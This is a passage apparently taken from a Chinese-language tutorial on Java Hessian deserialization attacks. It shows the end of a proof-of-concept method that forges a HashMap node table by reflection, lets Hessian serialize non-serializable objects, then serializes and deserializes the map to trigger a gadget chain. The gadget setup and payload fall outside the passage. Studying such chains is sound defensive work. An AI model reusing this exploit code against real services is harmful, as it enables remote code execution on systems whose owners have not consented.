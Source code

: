 ```java
        }
        Constructor<?> nodeCons = nodeC.getDeclaredConstructor(int.class, Object.class, Object.class, nodeC);
        nodeCons.setAccessible(true);

        Object tbl = Array.newInstance(nodeC, 2);
        Array.set(tbl, 0, nodeCons.newInstance(0, qName, qName, null));
        Array.set(tbl, 1, nodeCons.newInstance(0, xString, xString, null));
        setFieldValue(hashMap, "table", tbl);

        // Hessian 序列化数据
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        HessianOutput hessianOutput = new HessianOutput(byteArrayOutputStream);
        AllowNonSerializableFactory serializableFactory = new AllowNonSerializableFactory();
        serializableFactory.setAllowNonSerializable(true);
        hessianOutput.setSerializerFactory(serializableFactory);
        hessianOutput.writeObject(hashMap);
        byte[] serializedData = byteArrayOutputStream.toByteArray();
        System.out.println("Hessian 序列化数据为: " + new String(serializedData, 0, serializedData.length));

        // Hessian 反序列化数据
        ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(serializedData);
        HessianInput hessianInput = new HessianInput(byteArrayInputStream);
        hessianInput.readObject();
    }
}
```

<div align=center><img src="./images/8.png"></div>
